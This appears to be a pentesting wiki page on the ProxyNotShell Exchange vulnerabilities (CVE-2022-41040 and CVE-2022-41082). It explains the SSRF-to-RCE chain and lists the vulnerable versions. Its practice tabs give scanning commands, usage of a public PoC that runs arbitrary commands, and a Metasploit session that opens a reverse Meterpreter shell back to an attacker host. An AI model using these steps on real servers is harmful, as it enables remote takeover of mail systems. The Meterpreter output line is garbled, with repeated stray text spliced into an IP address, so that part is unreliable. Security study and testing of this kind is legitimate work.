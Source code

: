 ```yaml
---
description: Chained CVE-2022-41040, CVE-2022-41082
---
```


# ProxyNotShell

## Theory

ProxyNotShell is identified with the following CVEs: CVE-2022–41040 and CVE-2022–41082. The vulnerabilities affect Microsoft Exchange on premises with an **Outlook Web App.**

**CVE-2022-41040** : SSRF\
This vulnerability allow attackers to send an arbitrary request with a controlled URI and controlled data to an arbitrary backend service with LocalSystem privilege. (Request is very similar to the [ProxyShell](proxyshell.md) one)

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><strong>CVE-2022-41040 - SSRF</strong><br></p></figcaption></figure>

**CVE-2022-41082** : RCE\
By abusing CVE-2022-41040 **authenticated** users may exploit CVE-2022-41082 to run arbitrary commands in vulnerable Exchange Servers.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p><strong>CVE-2022-41082</strong> - RCE Request</p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [proxynotshell\_checker.nse](https://github.com/CronUp/Vulnerabilidades/blob/main/proxynotshell\_checker.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="proxynotshell_checker.nse" $IP

443/tcp open  https
    |_proxynotshell_checker: Potentially vulnerable to ProxyNotShell (mitigation not applied).
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.2.1118.20   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable :

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2019 CU12 | < 15.2.1118.20            |
| Exchange 2019 CU11 | < 15.2.986.36             |
| Exchange 2016 CU23 | < 15.1.2507.16            |
| Exchange 2016 CU22 | < 15.1.2375.33            |
| Exchange 2013 CU23 | < 15.0.1497.32            |

{% hint style="info" %}
All versions before November 8, 2022 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use [testanull's python script](https://github.com/testanull/ProxyNotShell-PoC) to exploit this vulnerability

```bash
# Install dependecies
pip install requests_ntlm2 requests

#Exploit
python poc_aug3.py <host> <username> <password> <command>
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyNotShell

{% hint style="info" %}
This exploit only support Exchange Server 2019
{% endhint %}

```bash
msf6 > use exploit/windows/http/exchange_proxynotshell_rce

msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 1We can use the We can use the We can use theWe can use the92.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.rezilion.com/blog/proxyshell-or-proxynotshell-lets-set-the-record-straight/" %}

{% embed url="https://www.picussecurity.com/resource/blog/proxynotshellcve-2022-41040-and-cve-2022-41082-exploits-explained" %}
